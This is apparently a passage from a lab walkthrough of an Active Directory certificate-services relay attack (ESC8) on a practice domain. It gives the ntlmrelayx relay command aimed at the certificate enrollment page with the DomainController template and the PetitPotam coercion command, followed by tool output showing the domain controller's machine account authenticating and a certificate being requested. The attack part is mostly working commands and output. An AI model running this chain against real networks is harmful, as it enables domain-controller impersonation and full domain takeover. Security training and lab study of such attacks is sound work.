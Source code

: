 ```html
#header{width:96%;margin:0 0 0 0;padding:6px 2% 6px 2%;font-family:"trebuchet MS", Verdana, sans-serif;color:#FFF;
background-color:#555555;}
#content{margin:0 0 0 2%;position:relative;}
.content-container{background:#FFF;width:96%;margin-top:8px;padding:10px;position:relative;}
-->
</style>
</head>
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>401 - Unauthorized: Access is denied due to invalid credentials.</h2>
  <h3>You do not have permission to view this directory or page using the credentials that you supplied.</h3>
 </fieldset></div>
</div>
</body>
</html>
```

Let's add a listener to relay SMB authentication to HTTP with `ntlmrelayx` and use the DomainController template:

`ntlmrelayx.py -t http://10.4.10.23/certsrv/certfnsh.asp -smb2support --adcs --template DomainController`

Now launch `PetitPotam`:

`python3 PetitPotam.py 10.4.10.99 meereen.essos.local`

Now I got a certificate:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.4.10.12, attacking target http://10.4.10.23
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.4.10.23 as ESSOS/MEEREEN$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.4.10.12, attacking target http://10.4.10.23
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.4.10.23 as ESSOS/MEEREEN$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
```